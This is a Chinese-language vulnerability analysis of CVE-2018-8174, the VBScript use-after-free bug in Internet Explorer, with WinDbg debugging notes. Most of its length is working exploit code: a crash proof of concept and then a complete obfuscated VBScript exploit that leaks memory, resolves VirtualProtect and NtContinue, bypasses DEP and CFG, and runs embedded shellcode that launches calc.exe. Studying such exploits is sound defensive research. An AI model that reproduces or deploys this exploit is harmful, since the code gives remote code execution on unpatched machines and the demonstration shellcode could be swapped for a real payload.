# [CVE-2018-8174分析之一] UAF分析

1. Crash POC
```
<html lang="en">
<body>
<script language="vbscript">
Dim array_a
Dim array_b(1)
Class Trigger
Private Sub Class_Terminate()
    Set array_b(0) = array_a(1)
    array_a(1) = 1
End Sub
End Class

Sub UAF
    ReDim array_a(1)
    Set array_a(1) = New Trigger
    Erase array_a
End Sub

Sub TriggerVuln
    array_b(0) = 0
End Sub

Sub StartExploit
    UAF
    TriggerVuln
End Sub
StartExploit

</script>
</body>

</html>
```

```
C:\Program Files\Debugging Tools for Windows (x86)>gflags.exe /i iexplore.exe +h
pa
Current Registry Settings for iexplore.exe executable are: 02000000
    hpa - Enable page heap
```


加log IsEmpty()，辅助分析

```
<html lang="en">
<body>
<script language="vbscript">
Dim array_a
Dim array_b(1)
Class Trigger
Private Sub Class_Terminate()
    Set array_b(0) = array_a(1)
    array_a(1) = 1
    IsEmpty(array_b)
End Sub
End Class

Sub UAF
    ReDim array_a(1)
    Set array_a(1) = New Trigger
    IsEmpty(array_a)
    Erase array_a
    IsEmpty("Erase Finish")
End Sub

Sub TriggerVuln
    array_b(0) = 0
End Sub

Sub StartExploit
    UAF
    TriggerVuln
End Sub
StartExploit

</script>
</body>

</html>
```


到这里可以看到，array_a(1)已经指向Trigger对象，继续调试。(调到这里的时候windb hang住了，只好杀了重新调试，新的array_a 地址是 0x081affe8)



执行到第三个IsEmpty，这时候array_a和Trigger object 已经释放，array_b中还保存着对Trigger object 的引用。
随后 array_b(0) = 0访问了被释放的内存，从而触发UAF 漏洞


显然，当 array_b 还引用Trigger Object的时候，Trigger Object却随着 Erase array_a被释放了。我们来看看是哪里发生了错误。



看过伪代码后，通过调试进一步验证猜测

```
0:004> bl
 0 e 6b1e343d     0001 (0001)  0:**** vbscript!VbsErase
 1 e 6b1a5f1c     0001 (0001)  0:**** vbscript!VBScriptClass::Release
 2 e 6b1a583e     0001 (0001)  0:**** vbscript!VbsIsEmpty
```
进入到   vbscript!VBScriptClass::Release 把上述断点disable掉，否则单步调试会断在我们不期望的地方







2. 漏洞利用（pop up calc.exe）
```
<!doctype html>
<html lang="en">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
<meta http-equiv="x-ua-compatible" content="IE=10">
<meta http-equiv="Expires" content="0">
<meta http-equiv="Pragma" content="no-cache">
<meta http-equiv="Cache-control" content="no-cache">
<meta http-equiv="Cache" content="no-cache">
</head>
<body>
<script language="vbscript">
Dim array_a
Dim array_b(6),array_c(6)
Dim spec_int_2
Dim IIllI(40)
Dim str_1,str_2
Dim spec_int_1
Dim cla4_obj1,cla4_obj2
Dim cla6_obj1,cla7_obj1
Dim NtContinueAddr,VirtualProtectAddr
 
spec_int_1=&hBADF00D
str_1=Unescape("%u0001%u0880%u0001%u0000%u0000%u0000%u0000%u0000%uffff%u7fff%u0000%u0000")
str_2=Unescape("%u0000%u0000%u0000%u0000%u0000%u0000%u0000%u0000")
spec_int_2=&hBAD0BAD
Function IIIII(Domain) 
    lIlII=0
    IllllI=0
    IIlIIl=0
    Id=CLng(Rnd*1000000)
    lIlII=CLng((&h27d+8231-&H225b)*Rnd)Mod (&h137d+443-&H152f)+(&h1c17+131-&H1c99)
    If(Id+lIlII)Mod (&h5c0+6421-&H1ed3)=(&h10ba+5264-&H254a) Then
        lIlII=lIlII-(&h86d+6447-&H219b)
    End If
 
    IllllI=CLng((&h2bd+6137-&H1a6d)*Rnd)Mod (&h769+4593-&H1940)+(&h1a08+2222-&H2255)
    IIlIIl=CLng((&h14e6+1728-&H1b5d)*Rnd)Mod (&hfa3+1513-&H1572)+(&h221c+947-&H256e)
    IIIII=Domain &"?" &Chr(IllllI) &"=" &Id &"&" &Chr(IIlIIl) &"=" &lIlII
End Function
 
Function lIIII(ByVal lIlIl)
    IIll=""
    For index=0 To Len(lIlIl)-1
        IIll=IIll &lIlI(Asc(Mid(lIlIl,index+1,1)),2)
    Next
    IIll=IIll &"00"
    If Len(IIll)/(&h15c6+3068-&H21c0) Mod (&h1264+2141-&H1abf)=(&hc93+6054-&H2438) Then
        IIll=IIll &"00"
    End If
    For IIIl=(&h1a1a+3208-&H26a2) To Len(IIll)/(&h1b47+331-&H1c8e)-(&h14b2+4131-&H24d4)
        lIIIlI=Mid(IIll,IIIl*(&h576+1268-&Ha66)+(&ha64+6316-&H230f),(&ha49+1388-&Hfb3))
        lIlIll=Mid(IIll,IIIl*(&hf82+3732-&H1e12)+(&h210+2720-&Hcaf)+(&h4fa+5370-&H19f2),(&hf82+5508-&H2504))
        lIIII=lIIII &"%u" &lIlIll &lIIIlI
    Next
End Function
Function lIlI(ByVal Number,ByVal Length)
    IIII=Hex(Number)
    If Len(IIII)<Length Then
        IIII=String(Length-Len(IIII),"0") &IIII    'pad allign with zeros 
    Else
        IIII=Right(IIII,Length)
    End If
    lIlI=IIII
End Function
Function GetUint32(lIII)
    Dim value
    cla4_obj1.mem(spec_int_1+8)=lIII+4
    cla4_obj1.mem(spec_int_1)=8        'type string
    value=cla4_obj1.P0123456789
    cla4_obj1.mem(spec_int_1)=2
    GetUint32=value
End Function
Function IllIIl(lIII)
    IllIIl=GetUint32(lIII) And (131071-65536)
End Function
Function lllII(lIII)
    lllII=GetUint32(lIII)  And (&h17eb+1312-&H1c0c)
End Function
Sub llllll
End Sub
Function GetMemValue
    cla4_obj1.mem(spec_int_1)= 3
    GetMemValue=cla4_obj1.mem(spec_int_1+ 8)
End Function
Sub SetMemValue(ByRef IlIIIl)
    cla4_obj1.mem(spec_int_1+8)=IlIIIl
End Sub
Function LeakVBAddr
    On Error Resume Next
    Dim cscript_entry_point_obj
    cscript_entry_point_obj=llllll
    cscript_entry_point_obj=null
    SetMemValue cscript_entry_point_obj
    LeakVBAddr=GetMemValue()
End Function
Function GetBaseByDOSmodeSearch(IllIll)
    Dim llIl
    llIl=IllIll And &hffff0000
    Do While GetUint32(llIl+(104))<>544106784 Or GetUint32(llIl+(108))<>542330692
        llIl=llIl-65536
    Loop
    GetBaseByDOSmodeSearch=llIl
End Function
Function StrCompWrapper(lIII,llIlIl)
    Dim lIIlI,IIIl
    lIIlI=""
    For IIIl=(&ha2a+726-&Hd00) To Len(llIlIl)-(&h2e1+5461-&H1835)
        lIIlI=lIIlI &Chr(lllII(lIII+IIIl))
    Next
    StrCompWrapper=StrComp(UCase(lIIlI),UCase(llIlIl))
End Function
Function GetBaseFromImport(base_address,name_input)
    Dim import_rva,nt_header,descriptor,import_dir
    Dim IIIIII
    nt_header=GetUint32(base_address+(&h3c))
    'IsEmpty(nt_header)
    import_rva=GetUint32(base_address+nt_header+&h80)
    'IsEmpty(import_rva)
    import_dir=base_address+import_rva
    'IsEmpty(import_dir)
    descriptor=0
    Do While True
        Dim Name
        Name=GetUint32(import_dir+descriptor*(&h14)+&hc)
        If Name=0 Then
            GetBaseFromImport=&hBAAD0000
            Exit Function
        Else
            If StrCompWrapper(base_address+Name,name_input)=0 Then
                Exit Do
            End If
        End If
        descriptor=descriptor+1
    Loop
    IIIIII=GetUint32(import_dir+descriptor*(&h14)+&h10)
    GetBaseFromImport=GetBaseByDOSmodeSearch(GetUint32(base_address+IIIIII))
End Function
 
Function GetProcAddr(dll_base,name)
    Dim p,export_dir,index
    Dim function_rvas,function_names,function_ordin
    Dim Illlll
    p=GetUint32(dll_base+&h3c)
    p=GetUint32(dll_base+p+&h78)
    export_dir=dll_base+p
 
    function_rvas=dll_base+GetUint32(export_dir+&h1c)
    function_names=dll_base+GetUint32(export_dir+&h20)
    function_ordin=dll_base+GetUint32(export_dir+&h24)
    index=0
    Do While True
        Dim lllI
        lllI=GetUint32(function_names+index*4)
        If StrCompWrapper(dll_base+lllI,name)=0 Then
            Exit Do
        End If
        index=index+1
    Loop
    Illlll=IllIIl(function_ordin+index*2)
    p=GetUint32(function_rvas+Illlll*4)
    GetProcAddr=dll_base+p
End Function
 
Function GetShellcode()
    IIlI=Unescape("%u0000%u0000%u0000%u0000") &Unescape("%ue8fc%u0082%u0000%u8960%u31e5%u64c0%u508b%u8b30%u0c52%u528b%u8b14%u2872%ub70f%u264a%uff31%u3cac%u7c61%u2c02%uc120%u0dcf%uc701%uf2e2%u5752%u528b%u8b10%u3c4a%u4c8b%u7811%u48e3%ud101%u8b51%u2059%ud301%u498b%ue318%u493a%u348b%u018b%u31d6%uacff%ucfc1%u010d%u38c7%u75e0%u03f6%uf87d%u7d3b%u7524%u58e4%u588b%u0124%u66d3%u0c8b%u8b4b%u1c58%ud301%u048b%u018b%u89d0%u2444%u5b24%u615b%u5a59%uff51%u5fe0%u5a5f%u128b%u8deb%u6a5d%u8d01%ub285%u0000%u5000%u3168%u6f8b%uff87%ubbd5%ub5f0%u56a2%ua668%ubd95%uff9d%u3cd5%u7c06%u800a%ue0fb%u0575%u47bb%u7213%u6a6f%u5300%ud5ff%u6163%u636c%u652e%u6578%u4100%u0065%u0000%u0000%u0000%u0000%u0000%ucc00%ucccc%ucccc%ucccc%ucccc" &lIIII(IIIII("")))
    IIlI=IIlI & String((&h80000-LenB(IIlI))/2,Unescape("%u4141"))
    GetShellcode=IIlI
End Function
Function EscapeAddress(ByVal value)
    Dim High,Low
    High=lIlI((value And &hffff0000)/&h10000,4)
    Low=lIlI(value And &hffff,4)
    EscapeAddress=Unescape("%u" &Low &"%u" &High)
End Function
Function lIllIl
    Dim IIIl,IlllI,IIlI,IlIII,llllI,llIII,lIllI
    IlllI=lIlI(NtContinueAddr,8)
    IlIII=Mid(IlllI,1,2)
    llllI=Mid(IlllI,3,2)
    llIII=Mid(IlllI,5,2)
    lIllI=Mid(IlllI,7,2)
    IIlI=""
    IIlI=IIlI &"%u0000%u" &lIllI &"00"
    For IIIl=1 To 3
        IIlI=IIlI &"%u" &llllI &llIII
        IIlI=IIlI &"%u" &lIllI &IlIII
    Next
    IIlI=IIlI &"%u" &llllI &llIII
    IIlI=IIlI &"%u00" &IlIII
    lIllIl=Unescape(IIlI)
End Function
Function WrapShellcodeWithNtContinueContext(ShellcodeAddrParam) 'bypass cfg
    Dim IIlI
    IIlI=String((100334-65536),Unescape("%u4141"))
    IIlI=IIlI &EscapeAddress(ShellcodeAddrParam)
    IIlI=IIlI &EscapeAddress(ShellcodeAddrParam)
    IIlI=IIlI &EscapeAddress(&h3000)
    IIlI=IIlI &EscapeAddress(&h40)
    IIlI=IIlI &EscapeAddress(ShellcodeAddrParam-8)
    IIlI=IIlI &String(6,Unescape("%u4242"))
    IIlI=IIlI &lIllIl()
    IIlI=IIlI &String((&h80000-LenB(IIlI))/2,Unescape("%u4141"))
    WrapShellcodeWithNtContinueContext=IIlI
End Function
Function ExpandWithVirtualProtect(Addr_wrap_sh_with_ntcontinue)
    Dim IIlI
    Dim lllllI
    lllllI=Addr_wrap_sh_with_ntcontinue+&h23
    IIlI=""
    IIlI=IIlI &EscapeAddress(lllllI)
    IIlI=IIlI &String((&hb8-LenB(IIlI))/2,Unescape("%4141"))
    IIlI=IIlI &EscapeAddress(VirtualProtectAddr)
    IIlI=IIlI &EscapeAddress(&h1b)
    IIlI=IIlI &EscapeAddress(0)
    IIlI=IIlI &EscapeAddress(Addr_wrap_sh_with_ntcontinue)
    IIlI=IIlI &EscapeAddress(&h23)
    IIlI=IIlI &String((&400-LenB(IIlI))/2,Unescape("%u4343"))
    ExpandWithVirtualProtect=IIlI
End Function
Sub ExecuteShellcode
    cla4_obj1.mem(spec_int_1)=&h4d 'DEP bypass
    IsEmpty("set fake type 4d")
    
    cla4_obj1.mem(spec_int_1+8)=0  '触发shellcode
    msgbox(spec_int_1)        'VT replaced
End Sub
 
Class cla1
Private Sub Class_Terminate()
    Set array_b(spec_int_2)=array_a((&h1078+5473-&H25d8))
    spec_int_2=spec_int_2+(&h14b5+2725-&H1f59)
    array_a((&h79a+3680-&H15f9))=(&h69c+1650-&Hd0d)
End Sub
 
End Class
 
Class cla2
Private Sub Class_Terminate()
    Set array_c(spec_int_2)=array_a((&h15b+3616-&Hf7a))
    spec_int_2=spec_int_2+(&h880+542-&Ha9d)
    array_a((&h1f75+342-&H20ca))=(&had3+3461-&H1857)
End Sub
End Class
 
Class cla3
End Class
 
Class cla4
    Dim mem
    Function P
    End Function
    Function SetProp(Value)
        mem=Value
        SetProp=0
    End Function
End Class
 
Class cla5
    Dim mem
    Function P0123456789
        P0123456789=LenB(mem(spec_int_1+8))
    End Function
    Function SPP
    End Function
End Class
 
Class cla6
    Public Default Property Get P
        Dim cla5_obj1
        P=174088534690791e-324 '4. 最后一步，将cla5_obj1.mem的type 改为array 类型
        For IIIl= 0 To 6
            array_b(IIIl)= 0  '1. 由于之前的UAF, array_b 保存着对cla4 object的引用,从而可以释放cla4_obj
        Next
        Set cla5_obj1=New cla5
        cla5_obj1.mem=str_1   '2. 使用clas5 object占位， cla5_obj1.mem 为精心构造字符串，且位置与cla4_obj1.mem 相差0xc个字节
        For IIIl= 0 To 6
            Set array_b(IIIl)=cla5_obj1 '3. array_b 保存对cla5_obj的引用
        Next
    End Property
End Class
 
Class cla7
    Public Default Property Get P
    Dim cla5_obj2
    P=636598737289582e-328        '将cla5_obj2.mem 的type 改为Long 类型
    For IIIl=(&h1063+2314-&H196d) To (&h4ac+2014-&Hc84)
        array_c(IIIl)=(&h442+2598-&He68)
    Next
    Set cla5_obj2=New cla5
    cla5_obj2.mem=str_2
    For IIIl=(&h7eb+3652-&H162f) To (&h3e8+1657-&Ha5b)
        Set array_c(IIIl)=cla5_obj2
    Next
    End Property
End Class
 
Set cla6_obj1=New cla6
Set cla7_obj1=New cla7
Sub UAF
    For IIIl=(&hfe8+3822-&H1ed6) To (&h8b+8633-&H2233)
        Set IIllI(IIIl)=New cla3
    Next
    For IIIl=(&haa1+6236-&H22e9) To (&h1437+3036-&H1fed)
        Set IIllI(IIIl)=New cla4
    Next
    spec_int_2=0
    For IIIl=0 To 6
        ReDim array_a(1)
        Set array_a(1)=New cla1
        Erase array_a
    Next
    Set cla4_obj1=New cla4
    spec_int_2=0
    For IIIl=0 To 6
        ReDim array_a(1)
        Set array_a(1)=New cla2
        Erase array_a
    Next
    Set cla4_obj2=New cla4
End Sub
Sub InitObjects
    cla4_obj1.SetProp(cla6_obj1)
    cla4_obj2.SetProp(cla7_obj1)
    spec_int_1=cla4_obj2.mem
End Sub
 
Sub StartExploit
    UAF
    InitObjects
    vb_adrr=LeakVBAddr()
    vt_adrr = GetUint32(vb_adrr)
    'IsEmpty(vt_adrr)
    'Alert "CScriptEntryPointObject Leak: 0x" & Hex(vb_adrr) & vbcrlf & "VirtualTable address: 0x" & Hex(vt_adrr)
    
    vbs_base=GetBaseByDOSmodeSearch(vt_adrr)
    'IsEmpty(vbs_base)
    'Alert "VBScript Base: 0x" & Hex(vbs_base) 
    
    msv_base=GetBaseFromImport(vbs_base,"msvcrt.dll")
    'Alert "MSVCRT Base: 0x" & Hex(msv_base) 
    
    krb_base=GetBaseFromImport(msv_base,"kernelbase.dll")
    'Alert "KernelBase Base: 0x" & Hex(krb_base) 
    
    ntd_base=GetBaseFromImport(msv_base,"ntdll.dll")
    'Alert "Ntdll Base: 0x" & Hex(ntd_base) 
    
    VirtualProtectAddr=GetProcAddr(krb_base,"VirtualProtect")
    'Alert "KernelBase!VirtualProtect Address 0x" & Hex(VirtualProtectAddr) 
    
    NtContinueAddr=GetProcAddr(ntd_base,"NtContinue")
    'Alert "KernelBase!VirtualProtect Address 0x" & Hex(NtContinueAddr) 
    
    SetMemValue GetShellcode()
    ShellcodeAddr=GetMemValue()+8
    IsEmpty(ShellcodeAddr)
    'Alert "Shellcode Address 0x" & Hex(ShellcodeAddr)
    IsEmpty(spec_int_1)
    
    SetMemValue WrapShellcodeWithNtContinueContext(ShellcodeAddr)
    Addr_wrap_sh_with_ntcontinue=GetMemValue()+69596
    IsEmpty(Addr_wrap_sh_with_ntcontinue)
    
    SetMemValue ExpandWithVirtualProtect(Addr_wrap_sh_with_ntcontinue)
    Addr_expand_with_virtualprotect=GetMemValue()
    IsEmpty(Addr_expand_with_virtualprotect)
    
    'Alert "Executing Shellcode"
    IsEmpty("Executing Shellcode")
    ExecuteShellcode
End Sub
StartExploit
</script>
</body>
</html>

```

以下要关掉PageHeap再调试
+ 先粗略看下VBScript中Class 结构
```
<html lang="en">
<body>
<script language="vbscript">
Dim X
Class TestClass
    Dim a,b
    
    Private Sub Class_Initialize   
        a=&h1122334
        b="test string"
    End Sub
    Private Sub Class_Terminate   
    End Sub
    
    Sub test_fun
        test_fun=1
    End Sub
    
End Class
Set X = New TestClass
IsEmpty(X)
</script>
</body>

</html>
```


+ UAF







+ InitObjects



执行前：



执行中：










同理，



+ Leak CScriptEntryPointObject Address





拿到CscriptEntry 对象地址后，要想办法拿到类的虚表指针，其实也就是 [vb_addr]

这里用到的一个基础知识点是，string的length是放在string 对象的前4个字节的。 这里就不对此展开了。

```
Function GetUint32(lIII)
    Dim value
    cla4_obj1.mem(spec_int_1+8)=lIII+4
    cla4_obj1.mem(spec_int_1)=8        'type string
    value=cla4_obj1.P0123456789
    cla4_obj1.mem(spec_int_1)=2
    GetUint32=value
End Function
```
